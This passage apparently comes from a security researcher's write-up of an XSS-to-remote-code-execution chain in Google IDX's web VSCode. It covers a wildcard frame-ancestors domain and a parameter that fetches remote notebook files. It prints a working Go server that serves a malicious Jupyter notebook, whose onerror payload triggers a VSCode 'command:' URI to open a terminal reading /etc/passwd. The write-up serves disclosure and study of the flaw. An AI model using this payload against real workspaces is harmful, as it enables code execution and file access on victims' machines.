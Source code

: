 `*.cloudworkstations.googleusercontent.com` wow so this is what we were looking for. As the frame-ancestors directive includes this wildcard domain it's possible to use the xss via the Jupyter notebook to iframe the `webWorkerExtensionHostIframe.html` endpoint.

But there is one bummer, how can we place a malicious Jupyter notebook file in victim's IDX instance.  Sreeram and Sivanesh  again comes to the rescue.

There's actually one endpoint I should call it parameter which allows you to specify the location of the `ipynb` file which will automatically be fetched and rendered. This was originally found by Project Zero

<center><a
  href="https://github.com/google/security-research/security/advisories/GHSA-pw56-c55x-cm9m"
  class="card-preview"
  data-size="large"
  target="_blank">
  Loading preview...
</a></center>


<br/>
<br/>
The same parameter also accepted http urls, so an attacker could specify his own server there which will be fetched and when rendered would allow xss. Below is the web server which they used and along with that they also found a RCE gadget related to handling of `command:` uris, these are special urls which are handled internally by VSCode you can check the advisory for details it's a very cool gadget

````go
// https://golang.org
package main

import "net/http"

const file = `{
 "cells": [
  {
   "cell_type": "markdown",
   "metadata": {},
   "source": [
    "<img src=a onerror=\"let q = document.createElement('a');q.href='command:workbench.action.terminal.new?
%7B%22config%22%3A%7B%22executable%22%3A%22vim%22%2C%22args%22%3A%5B%22%2Fetc%2Fpasswd%22%5D%
7D%7D';document.body.appendChild(q);q.click()\"/>"
   ]
  }
]}`

func Do() (err error) {
	return http.ListenAndServe(":http-alt" /* 8080 */, http.HandlerFunc(func(rw http.ResponseWriter, rq *http.Request) {
		rw.Header().Set("Access-Control-Allow-Origin", "*")
		rw.Write([]byte(file))
	}))
}

func main() {
	if err := Do(); err != nil {
		panic(err)
	}
}
````
